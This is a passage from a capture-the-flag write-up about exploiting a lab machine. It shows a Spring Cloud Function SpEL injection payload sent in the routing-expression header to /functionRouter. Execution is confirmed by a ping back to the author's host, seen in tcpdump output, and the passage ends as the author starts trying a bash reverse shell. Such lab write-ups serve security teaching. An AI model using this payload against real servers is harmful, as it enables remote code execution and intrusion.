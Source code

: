 A bit before that, it sets the data that will be sent:

```

    payload=f'T(java.lang.Runtime).getRuntime().exec("{cmd}")'

    data ='test'
    headers = {
        'spring.cloud.function.routing-expression':payload,
        'Accept-Encoding': 'gzip, deflate',
        'Accept': '*/*',
        'Accept-Language': 'en',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    path = '/functionRouter'

```

Execution appears to be in a specially formatted `spring.cloud.function.routing-expression` header.

I’ll try sending this request, and it does crash:

![image-20230313183004040](/img/image-20230313183004040.png)

It does seem on Inject that anything I send to this endpoint crashes, so it’s not clear to me that this is vulnerable yet.

#### POC

To test for execution, I’ll replace `sleep` with `ping -c 1 10.10.14.6` to send one ICMP ping to my host. I’ll listen with `tcpdump` filtering for ICMP traffic on my `tun0` interface. When I submit the HTTP request, there’s a ping!

```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
18:31:17.026312 IP 10.10.11.204 > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
18:31:17.026319 IP 10.10.14.6 > 10.10.11.204: ICMP echo reply, id 2, seq 1, length 64

```

### Shell

#### Failures

This is blind execution (the response is just a 500 error, without the output of the result). I’ll try a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw), but with the special characters in that, it’s likely to not work:

![image-20230313183519151](/img/image-20230313183519151.png)
